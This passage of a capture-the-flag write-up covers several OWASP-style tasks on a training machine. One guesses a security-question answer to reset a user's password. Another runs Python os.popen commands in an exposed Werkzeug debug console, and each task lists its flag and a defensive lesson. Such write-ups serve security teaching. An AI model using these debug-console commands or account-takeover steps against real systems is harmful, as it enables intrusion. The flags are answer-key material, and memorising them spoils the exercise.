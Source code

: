 **Findings:**
- Strange file: `drpepper.txt`
- Non-root/non-service/non-daemon users: `0`
- User: `apache`
- User shell: `/sbin/nologin`
- Alpine Linux version: `3.16.0`

**Key Insight**: Never trust user input. Always validate and sanitize input before passing to system commands. Use parameterized commands or safe APIs.

---

### Task 11-12: Insecure Design

**Target**: `http://MACHINE_IP:85`  
**Objective**: Exploit password reset mechanism for user `joseph`

**Exploitation:**
```
1. Navigate to "I forgot my password"
2. Enter username: joseph
3. Security question: "What is your favorite color?"
4. Tested common colors: Red, red, Orange, Yellow
5. Successful answer: green (case-sensitive)
6. System generated temporary password
7. Login with new credentials
8. Navigate to Private → Flag.txt
```

**Flag**: `THM{Not_3ven_c4tz_c0uld_sav3_U!}`

**Key Insight**: Security questions with easily guessable answers (colors, pets, cities) provide weak authentication. Implement MFA or more robust recovery mechanisms.

---

### Task 12: Security Misconfiguration

**Target**: `http://MACHINE_IP:86/console` (Werkzeug Debug Console)

**Exploitation:**

**Step 1: Directory Listing**
```python
import os; print(os.popen("ls -l").read())
```
**Result**: `todo.db`

**Step 2: Source Code Extraction**
```python
import os; print(os.popen("cat app.py").read())
```
**Result**: Found `secret_flag` variable

**Flag**: `THM{Just_a_tiny_misconfiguration}`

**Key Insight**: Debug consoles, development tools, and verbose error messages must be disabled in production. Implement proper environment configurations.

---